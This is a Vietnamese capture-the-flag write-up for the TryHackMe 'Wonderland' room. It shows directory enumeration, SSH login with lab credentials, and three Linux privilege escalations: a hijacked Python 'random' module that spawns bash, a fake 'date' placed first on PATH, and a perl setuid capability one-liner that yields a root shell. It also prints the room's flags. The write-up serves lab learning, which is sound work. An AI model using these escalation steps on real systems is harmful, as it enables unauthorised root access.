# __Wonderland__

Room at https://tryhackme.com/room/wonderland

---

??? question "List of the questions solved"

    Question: Obtain the flag in user.txt
    > thm{"Curiouser and curiouser!"}

    Question: Escalate your privileges, what is the flag in root.txt?

    > thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}

## __Pentest scenario__

### __Reconnaissance__

Host: 10.10.176.200

Đầu tiên ta nên có các bước kiểm tra website ban đầu như là: vào trang web, f12,...



Từ giao diện trên, ta thấy rằng hình ảnh con thỏ nằm trong folder img và sau quá trình recon thì ta lấy được 3 ảnh trong folder img để xem liệu tác giả có dùng steganography cho image hay không.



Ta kiểm thử steganography trong hình ảnh bằng binwalk, steghide, stegseek,... thì ta nhận được steg được ẩn trong file `white_rabbit_1.jpg` và được hint khá là "hữu ích" ::)



Có vẻ trang chủ không còn gì để điều tra nữa, ta sẽ dùng các công cụ để điều tra các thứ khác có trong IP 10.10.176.200. 

Đầu tiên, vì đây là pentest nội bộ nên ta có thể dùng nmap để scan port (có thể scan tất cả các port hoặc scan một ít).

Như thường lệ, kết quả nmap cho ra bằng việc scan NULL thì website ta đang có 2 port, 1 cho ssh và 1 cho http.

```ps1 title="Terminal"
PORT   STATE         SERVICE
22/tcp open|filtered ssh
80/tcp open|filtered http
```

Tiếp theo, ta sẽ quét các url của website bằng gobuster chẳng hạn

```ps1 title="Terminal"
└─$ gobuster  dir -u http://10.10.176.200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.176.200
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/08/26 10:51:12 Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 0] [--> img/]
/r                    (Status: 301) [Size: 0] [--> r/]
/poem                 (Status: 301) [Size: 0] [--> poem/]
```

Đầu ra của gobuster cho ta 3 url cơ bản gồm /img, /r, /poem. :slight_smile: :slight_smile:

Cứ tiếp tục gobuster thì ta sẽ được url http://10.10.176.200/r/a/b/b/i/t đúng với cái hint ban đầu :slight_smile:



Cứ tưởng lại công cóc như bạn thử f12 trang web lên đi, điều bất ngờ sẽ xảy ra



Ta được thông tin đăng nhập ssh (có lẻ vậy).

Login ssh thành công 

??? info "Đừng có xem"

    username: alice

    password: HowDothTheLittleCrocodileImproveHisShiningTail

### __Init Access__

```ps1 title="Terminal"
└─$ ssh alice@10.10.176.200
The authenticity of host '10.10.176.200 (10.10.176.200)' can't be established.
ED25519 key fingerprint is SHA256:Q8PPqQyrfXMAZkq45693yD4CmWAYp5GOINbxYqTRedo.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:47: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.176.200' (ED25519) to the list of known hosts.
alice@10.10.176.200's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Aug 26 15:16:40 UTC 2023

  System load:  0.1                Processes:           84
  Usage of /:   18.9% of 19.56GB   Users logged in:     0
  Memory usage: 15%                IP address for eth0: 10.10.176.200
  Swap usage:   0%


0 packages can be updated.
0 updates are security updates.


Last login: Mon May 25 16:37:21 2020 from 192.168.170.1
alice@wonderland:~$ 
```
Vào được máy người ta rồi thì làm gì tiếp ta?

Ta có 2 hướng cơ bản nhất của việc leo quyền là kiểm tra sudo và suid (2 bước xem như đầu tiên cần được để ý tới)

> Hiển nhiên, ta phải có thủ tục `cat /etc/shadow`, `cat /etc/crontab` để làm món khai vị

Với sudo: Ta dùng lệnh `sudo -l` để kiểm tra liệu với user mình đã login thì sẽ dùng được quyền nào/dưới tên người dùng nào (tính cả leo thang đặc quyền theo chiều ngang).

Với suid: Ta dùng lệnh `find / -user root -perm /4000 -type f 2>/dev/null` để kiểm tra suid được chạy với root.

```ps1 title="Terminal"
alice@wonderland:~$ sudo -l
[sudo] password for alice: 
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

Ta thấy rằng khi kiểm tra sudo thì với user Alice đưa ra kết quả `(rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py` tức là user Alice sẽ được dùng python tại `/usr/bin/python3.6` với quyền của user rabbit (tôi dùng từ "với quyền" chứ không phải là quyền tương đương).

Chúng ta xem thử file `walrus_and_the_carpenter.py` chứa gì trong đó

```python title="walrus_and_the_carpenter.py"
alice@wonderland:~$ cat walrus_and_the_carpenter.py 
import random
poem = """The sun was shining on the sea,
Shining with all his might:
He did his very best to make
The billows smooth and bright —
And this was odd, because it was
The middle of the night.
.
.
.
"O Oysters," said the Carpenter.
"You’ve had a pleasant run!
Shall we be trotting home again?"
But answer came there none —
And that was scarcely odd, because
They’d eaten every one."""

for i in range(10):
    line = random.choice(poem.split("\n"))
```

Thì cơ bản đây là một đoạn chương trình nhằm in ra random dòng thơ nhưng cái quan trọng ta focus vào đây là chương trình này dùng dynamic linking (tức là dùng thư viện động) kết nối. Cụ thể là thư viện random lấy từ 1 vị trí nào đó trong máy. 

> Kiểm tra vị trí bằng lệnh: `locate random.py`
>
>   ```ps1 title="Terminal"
>   alice@wonderland:/home$ locate random.py
>   /usr/lib/python3/dist-packages/cloudinit/config/cc_seed_random.py
>   /usr/lib/python3.6/random.py
>   ```

??? question "Chuyện gì xảy ra nếu ta tạo một file random.py ngay tại folder chứa file `walrus_and_the_carpenter.py`?"
    Nếu ta làm như vậy, khi ta thực thi file `walrus_and_the_carpenter.py` thì thư viện nó được import sẽ chính là thư viện mà ta đã tạo (tức file random.py)

### __Privilege Escalation__

#### __Python Library Hijacking__

> Ở đây tôi đề cập đến việc dynamic-link library (DLL) và tạo 1 library mới để chuyển hướng thư viện nhằm đạt được mục đích tấn công chứ không đi theo hướng Hijacking vào thư viện gốc (bạn có thể thấy phân quyền của file thư viện, đó là lý do)

Tới đây, ta sẽ tạo 1 file random.py với mục đích tạo ra một terminal. Thì theo logic, user rabbit tạo terminal thì là terminal của user rabbit 

```python title="random.py"
alice@wonderland:~$ cat random.py 
import pty
pty.spawn ("/bin/bash")
```

!!! question "Tạo sao lệnh tạo spawn kia lại trueyenf /bin/bash mà không phải /bin/sh, liệu truyền /bin/sh thì chuyện gì sẽ xảy ra?"

Oke, bây giờ thực thi file `walrus_and_the_carpenter.py` thôi

> sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py



Ta đã vào thành công terminal của user rabbit. Hiển nhiên là vào bằng việc leo quyền chiều ngang từ user Alice nên ta không nhận được password đâu và đồng nghĩa với việc không thể thực hiện lệnh `sudo -l`.

Sau khi thăm dò hệ thống bằng user rabbit, ta lại phát hiện file teaParty trong /home/rabbit



Ta thử `strings teaParty` thì thấy hệ thống báo command strings chưa được install, để hạn chế việc phát hiện của blue team trong hệ thống, ta hạn chế install package. 

Từ đây, ta sẽ tạo 1 máy chủ web local để máy attacker có thể lấy file teaParty về kiểm thử





Từ hình trên ta thấy được mã 

```ps1 title="Terminal"
Welcome to the tea party!
The Mad Hatter will be here soon.
/bin/echo -n 'Probably by ' && date --date='next hour' -R
Ask very nicely, and I will give you some tea while you wait for him
Segmentation fault (core dumped)
```

Đoạn mã này nhận biến date để hiển thị thông tin về thời gian, tới đây một ý tường lóe lên trong đầu là fake biến data này để khiến nó hiển thị cái mà chúng ta đang quan tâm.

Vấn đề ở đây là gì? (đọc và suy ngẫm...)

Hơi khó lý giải một xíu, về bản chất ở đây, các câu lệnh như: ls, cd, ... đều là cú pháp rút ngắn đi. Cụ thể hơn các lệnh đó bản chất là 1 đường dẫn tới tệp tin (tệp tin `ls`, tệp tin `cd`, ...) và công dụng của những tệp tin đó là output của lệnh mà chúng ta đã trải nghiệm qua.

Nói một cách dễ hiểu hơn, ở phần leo thang đặc quyền theo chiều ngang phía trên, chính user Alice đã dùng đúng tệp tin python () để leo quyền user rabbit /usr/bin/python3.6

Tóm lại, ta biết rằng trong file teaParty sử dụng biến `date`, ta sẽ tạo file `date` nhưng mang ý nghĩa mở shell để leo quyền, cụ thể ta có thể dùng lệnh `echo "/bin/bash" > date`. Hiển nhiên bạn phải chuyển file đó vào thư mục bạn có quyền kiểm soát, cụ thể là thư mục `/tmp` và cấp quyền cho file (chmod 777). 

??? question "Ngoại trừ thư mục /tmp, liệu còn thư mục nào khác để ta dặt lại biến $PATH không?"
    > Có thể dùng thư mục /home/rabbit để export $PATH thay cho /tmp

Trên đây là công đoạn đầu tiên, điều gì sẽ làm tiến theo?

---

#### __PATH Variable__

Như tôi đã đề cập, khi này ta có 1 path tới date là /tmp/date, nhưng vấn đề biến $PATH chưa được thay đổi. Ta sẽ dùng thủ thuật nhỏ để thay đổi biến $PATH

> echo $PATH # Xem `$PATH` mặc định
>
> export PATH=/tmp:$PATH # đưa `$PATH` vào tmp để dùng được `date`

Xong, tiến hành chạy file teaParty



Oke, ta vào được user hatter và lụm được file password.txt



> password: WhyIsARavenLikeAWritingDesk?

::) Phải có password mới dùng `sudo -l` được chứ



Wao, thật bất ngờ :v

Tới đây làm gì nữa ???

---

#### __Capabilities__

Chúng ta lại quên 1 kiểm tra đặc quyền cơ bản khi vào máy nạn nhân đó là [Capabilities](/notes/privilege-escalation/linux/#capabilities)



Ta thấy tại perl có set_id :arrow: ta có thể leo quyền được

Dùng lệnh trong https://gtfobins.github.io/gtfobins/perl/#capabilities

> perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'

Ta sẽ leo được quyền root

```ps1 title="Terminal"
hatter@wonderland:~$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# whaomi
/bin/sh: 1: whaomi: not found
# whoami
root
# ^C
# exit
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# whoami
root
# cd /home/alice
# cat root.txt
thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}
# find / -iname user.txt 
/root/user.txt
# cat /root/user.txt
thm{"Curiouser and curiouser!"}
# 
```

Thực ra file user.txt thì nhìn hint ở tryhackme ta sẽ tìm được ở những giây phút ban đầu. Nhưng hiện tại mình đã là root, việc tìm file cũng chưa muộn đúng không?

## __What we learned__

1. Linux Privilege Escalation with Python Library Hijacking
2. Linux Privilege Escalation with PATH Variable
3. Linux Privilege Escalation with Capabilities
4*. abcd  